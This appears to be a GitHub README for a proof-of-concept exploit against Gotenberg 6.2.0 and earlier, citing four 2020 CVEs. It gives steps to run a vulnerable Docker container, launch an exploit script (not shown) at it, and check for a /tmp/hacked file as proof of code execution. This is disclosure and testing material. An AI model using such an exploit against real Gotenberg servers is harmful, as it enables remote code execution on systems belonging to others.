 
# PoC code for exploiting Gotenberg 2020 vulnerabilities

Refer to CVE-2020-13449, CVE-2020-13450, CVE-2020-13451, CVE-2020-13452:
https://sploit.tech/2020/12/29/Gotenberg.html

Write-up:
<medium link soon>

# Instructions

1. Run gotenberg version 6.2.0 or earlier:
```bash
$ docker run --rm -p 3000:3000 --name gotenberg thecodingmachine/gotenberg:6.2.0
```
2. Execute the exploit with proper url:
```bash
$ ./go.sh http://localhsot:3000
```

3. Grab a coffee and wait.

4. When script prints "Executed!" message you can check the /tmp/hacked file, check if it's there:
```bash
$ docker exec gotenberg bash -c "cat /tmp/hacked"
```


